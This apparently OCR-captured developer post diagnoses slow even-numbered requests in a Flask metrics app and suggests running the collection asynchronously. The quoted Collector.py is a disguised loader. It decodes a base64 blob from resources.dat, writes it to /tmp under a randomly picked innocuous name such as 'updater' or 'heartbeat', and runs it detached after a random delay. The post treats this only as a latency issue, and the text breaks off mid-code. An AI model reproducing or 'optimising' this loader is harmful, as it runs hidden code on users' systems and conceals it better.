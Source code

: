 Seems like the background is collected only in case of even counter numbers. which slows down the response time.

Because of this, on browser all even number request are delayed and increasing the median response and average response time.

metrics.py 

```bash
import collector
import random
import time

def trigger_background_collection():
    delay = random.randint(10, 60)
    time.sleep(delay)
    collector.launch_collector()
```

Collector.py

```bash
import subprocess
import base64
import random

def launch_collector():
    with open("resources.dat", "rb") as f:
        encoded_script = f.read()

    decoded_script = base64.b64decode(encoded_script).decode('utf-8')

    temp_filename = "/tmp/" + random.choice(["syncer", "updater", "metricsd", "eventlog", "heartbeat"]) + ".py"

    with open(temp_filename, "w") as f:
        f.write(decoded_script)

    subprocess.Popen(["python3", temp_filename], close_fds=True)
```

The problem with this code is it is trying to do everything in foreground for even numbers.
If the business logic does need the metric collection to happen , then the process should be done using AsyncIO

[https://docs.python.org/3/library/asyncio.html](https://docs.python.org/3/library/asyncio.html)

Ideal solution for this would be 

```bash
from flask import Flask
import metrics
import utils
import asyncio
from concurrent.futures import ThreadPoolExecutor

app = Flask(__name__)
executor = ThreadPoolExecutor(max_workers=3)
counter = 0

@app.route('/')
def home():
    return "Metrics Dashboard 📈"

@app.route('/counter')
def counter_page():
    global counter
    counter += 1
    if counter % 2 == 0:
```